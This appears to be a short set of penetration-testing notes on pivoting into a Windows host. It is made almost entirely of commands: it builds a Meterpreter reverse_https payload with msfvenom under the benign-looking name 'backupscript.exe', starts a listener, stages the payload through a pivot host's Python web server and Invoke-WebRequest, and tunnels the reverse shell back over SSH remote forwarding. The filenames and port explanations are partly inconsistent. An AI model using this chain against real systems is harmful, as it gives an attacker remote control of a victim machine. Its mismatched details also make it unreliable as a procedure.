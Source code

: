- Create Windows Payload with msfvenom
```bash
 msfvenom -p windows/x64/meterpreter/reverse_https lhost= $InternalIPofPivotHost -f exe -o backupscript.exe LPORT=8080
```

- Start multi/handler
```bash
use exploit/multi/handler
set LHOST 0.0.0.0
set LPORT 8000
run
```

- Transfer payload to Pivot Host
```bash
scp ./backupjobs.exe $USER@$PIVOT_HOST
```

- Set up Python server on Pivot Host to transfer the payload to the Target
```bash
python3 -m http.server 8123
```

- Download the payload from the Target
```bash
Invoke-WebRequest -URI "http://$PIVOT_HOST_INTERNAL_IP:8123/backupjobs.exe" -OutFile "C:\backupjobs.exe"
```

- Using SSH -R to create tunnel
```bash
ssh -R $PIVOT_HOST_INTERNAL_IP:8080:0.0.0.0:8000 $USER@TARGET_IP -vN

# This use SSH remote port forwarding to forward msfconsole's listener service port on 8080 to the $PIVOT_HOST server's port 8080
-v: make the ssh verbose
-N: ask the ssh not to prompt log in shell
-R: ask the $PIVOT HOST server to listen on $TARGET:8080 and forward all traffic to msfconsole listener on 0.0.0.0:8000
```
